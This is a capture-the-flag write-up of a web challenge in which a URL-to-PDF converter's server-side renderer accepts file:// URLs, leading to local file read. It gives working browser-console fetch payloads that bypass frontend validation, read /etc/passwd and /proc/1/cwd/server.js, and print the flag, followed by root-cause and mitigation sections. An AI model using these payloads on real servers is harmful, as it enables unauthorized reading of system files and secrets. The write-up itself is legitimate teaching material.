





# NoHackNoCTF 2026 — `#include` Writeup

- **Author:** Efe Şahinbaş
- **GitHub Repository:** [MacallanTheRoot/ctf-writeups](https://github.com/MacallanTheRoot/ctf-writeups/)

**Category:** Web  
**Difficulty:** Baby  
**Target:** `http://txg.chal2.teagod.tech:8722/`  
**Hint:** `Yet another PDF converter. easy enough, right? flag in source code.`

---

## Summary

In this challenge, the application was a simple URL-to-PDF converter. The service accepted a URL from the user, rendered the given page on the server side, and returned the generated PDF.

The intended vulnerability was caused by the backend PDF renderer accepting `file://` URLs. By abusing this behavior, it was possible to read local files from the server. After confirming local file read with `/etc/passwd`, I used the `/proc/1/cwd` trick to locate and read the application source code. The flag was stored inside a comment at the end of `server.js`.

---

## 1. Initial Recon

When visiting the challenge page, I found a basic PDF converter interface. The page accepted a URL and generated a PDF from it.



The challenge hint said:

> flag in source code

This suggested that the goal was not just to interact with the frontend, but to read the backend source code of the application.

Since the application was rendering user-supplied URLs into PDF files, I suspected a server-side rendering issue. If the backend renderer accepted local file paths through the `file://` scheme, it could potentially lead to arbitrary local file read.

---

## 2. Client-Side URL Validation

First, I tried to enter the following payload directly into the URL field:

```text
file:///etc/passwd
```

However, the frontend blocked it. The page appeared to enforce a client-side check that only allowed URLs starting with `http://` or `https://`.

This kind of validation is not a real security boundary because it only happens in the browser. If the backend does not repeat the same validation, the request can still be sent manually.

The page also used Google reCAPTCHA, so a direct unauthenticated `curl` request was not enough. Instead, I solved the captcha in the browser and reused the valid captcha token from the page.

---

## 3. Sending the Request Manually from DevTools

After solving the captcha normally, I opened the browser DevTools console and sent a manual request to the `/convert` endpoint.

```javascript
const target = 'file:///etc/passwd';
const token = grecaptcha.getResponse(captchaWidgetId);

fetch('/convert', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body:
    'url=' + encodeURIComponent(target) +
    '&g-recaptcha-response=' + encodeURIComponent(token)
})
  .then(r => r.blob())
  .then(b => {
    const url = URL.createObjectURL(b);
    const a = document.createElement('a');
    a.href = url;
    a.download = 'passwd.pdf';
    a.click();
  });
```



This request bypassed the frontend URL validation while still using a valid reCAPTCHA token.

The server generated and returned a PDF containing the contents of `/etc/passwd`.



This confirmed that the backend renderer could read local files through the `file://` scheme.

---

## 4. Finding the Source Code Path

The next goal was to read the backend source code.

Common paths such as the following did not immediately work:

```text
file:///app/server.js
file:///home/ctf/server.js
file:///home/node/server.js
```

Instead of guessing the working directory, I used a common Linux `/proc` trick.

In Docker-style CTF environments, the main application process often runs as PID `1`. The path below points to the current working directory of process `1`:

```text
/proc/1/cwd
```

So, if the Node.js application was running from its project directory, this path could be used to access the source file without knowing the full absolute path.

The final target became:

```text
file:///proc/1/cwd/server.js
```

---

## 5. Reading `server.js`

I updated the DevTools payload to read `server.js` through `/proc/1/cwd`.

```javascript
const target = 'file:///proc/1/cwd/server.js';
const token = grecaptcha.getResponse(captchaWidgetId);

fetch('/convert', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body:
    'url=' + encodeURIComponent(target) +
    '&g-recaptcha-response=' + encodeURIComponent(token)
})
  .then(r => r.blob())
  .then(b => {
    const url = URL.createObjectURL(b);
    const a = document.createElement('a');
    a.href = url;
    a.download = 'server.pdf';
    a.click();
  });
```



The server returned another PDF. This time, the PDF contained the backend source code.



Inside the source code, the application used `html-pdf-node` to generate a PDF from the provided URL. The relevant behavior was that the user-controlled `url` value was passed into the PDF generator.

A simplified view of the vulnerable flow:

```javascript
const pdf = await html_pdf_node.generatePdf(
  { url },
  {
    format: 'A4',
    path: job.output_path,
    printBackground: true
  }
);
```

Because the backend did not restrict the scheme to safe remote protocols, `file://` URLs could be rendered as well.

---

## 6. Getting the Flag

At the bottom of the retrieved `server.js` file, the flag was stored inside a comment block:

```javascript
// . . .˚ . ✦˚ . ˚ . ✦ ˚ . . ✦ . ˚ *
// .✦ ˚ . . ✦ ˚ .
// NHNC{Well_done!_stay_tuned_for_the_next_challenge.}
// ✦ . ˚ * . . ✦ ˚ ✦ ˚ .
```

Flag:

```text
NHNC{Well_done!_stay_tuned_for_the_next_challenge.}
```

---

## Root Cause

The root cause was that the backend trusted a user-supplied URL and passed it directly into a server-side PDF renderer.

The frontend attempted to block non-HTTP URLs, but the backend did not enforce the same restriction. As a result, the attacker could manually send a `file://` URL to the conversion endpoint and read local files from the server.

This led to arbitrary local file read through the PDF generation process.

---

## Impact

An attacker could read sensitive local files from the server, including:

```text
/etc/passwd
/proc/1/cwd/server.js
```

In this challenge, reading the application source code was enough to retrieve the flag.

In a real-world scenario, similar bugs could expose:

- Application source code
- Environment variables
- API keys
- Configuration files
- Internal service credentials
- Cloud metadata, depending on the environment

---

## Mitigation

To prevent this type of vulnerability, the backend should validate and restrict user-supplied URLs before passing them to a server-side renderer.

Recommended mitigations:

1. Enforce backend-side URL validation.
2. Allow only `http://` and `https://` schemes.
3. Explicitly block dangerous schemes such as:

```text
file://
ftp://
gopher://
dict://
data://
```

4. Block localhost and private network ranges.
5. Run the renderer inside a restricted sandbox.
6. Disable unnecessary filesystem access for the rendering process.
7. Do not rely on frontend validation for security.
8. Use strict allowlists instead of blocklists where possible.

---

## Final Notes

This was a clean baby-level web challenge demonstrating how dangerous server-side URL rendering can become when local file schemes are not restricted.

The key steps were:

```text
1. Identify the PDF converter behavior.
2. Bypass frontend-only URL validation.
3. Reuse a valid reCAPTCHA token.
4. Confirm local file read with file:///etc/passwd.
5. Use /proc/1/cwd/server.js to locate the source code.
6. Read the flag from the source file.
```

```text
NHNC{Well_done!_stay_tuned_for_the_next_challenge.}
```
````
